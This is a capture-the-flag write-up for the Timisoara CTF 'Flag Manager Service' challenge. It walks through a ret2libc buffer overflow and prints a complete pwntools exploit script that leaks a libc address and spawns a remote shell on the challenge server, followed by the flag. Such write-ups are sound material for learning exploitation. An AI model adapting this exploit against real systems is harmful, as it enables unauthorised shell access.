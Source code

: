 ```yaml
---
title: "Flag Manager Service [400]"
tags: [Timisoara CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
layout: single
classes: wide
--- 
```


**Category:** Binary Exploitation 

> Our spies found this flag manager service running on the ctf server. It needs a password tho, but I am sure you can handle it.  
nc 89.38.208.144 11115

## Write-up
Analysis of the binary with Ghidra shows this is a standard ret2libc buffer overflow. `libc-2.27.so` being provided reinforces the challenge being a ret2libc.

As usual, all ret2libc exploits have the following order:
1. **Leak the address of puts**  
Leak the address of `puts` using `puts` to output the address. Essentially, just call `puts(puts_got)`, where `puts_got` is the address of `puts`in the `GLOBAL OFFSET TABLE (GOT)`.

2. **Calculate the libc base**  
Libc base can be calculated using `puts` - `puts_offset`, where `puts` is the leaked address and `puts_offset` is the address of `puts` in libc. 

3. **Calculate system and /bin/sh address**    
With libc base value, the address of `system` and the string `/bin/sh\x00` can be calculated using `libc_base + system_offset` and `libc_base + binsh_offset` respectively.

4. **Call system(/bin/sh)**  
Overflow the buffer and call `system(/bin/sh)`, which executes shell. Before calling `system(/bin/sh)`, the `RSI` register has to be set to 0, or the call will not work.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./flag_manager01",
    "libc" : "./libc-2.27.so",
    "ld" : "./ld-2.27.so",
    "HOST" : "89.38.208.144",
    "PORT" : 11115,
}

def exploit(p):
	padding = "\x90"*88
	main = elf.symbols['main']
	puts_got = elf.got['puts']
	puts_plt = elf.plt['puts']

	pop_rdi = elf.search(asm("pop rdi ; ret")).next()
	pop_rsi_r15 = elf.search(asm("pop rsi ; pop r15 ; ret")).next()

	payload = padding 
	payload += p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
	sla("Enter your name: ", payload)
	sla("Enter password please: ", '') 

	p.recvline()
	p.recvline()

	puts = u64(p.recvline().strip() + '\x00'*2)
	base = puts - libc.symbols['puts']
	system = base + libc.symbols['system']
	sh = base + libc.search("/bin/sh\x00").next()

	payload = padding + p64(pop_rdi) + p64(sh) + p64(pop_rsi_r15) + p64(0) + p64(0) + p64(system)

	sla("Enter your name: ", payload)
	sla("Enter password please: ", '')
	 
	lg("SYSTEM: " + hex(system))
	lg("BASE: " + hex(base))
	p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** TIMCTF{d3v_fd_i5_sn3aky_backd00r}
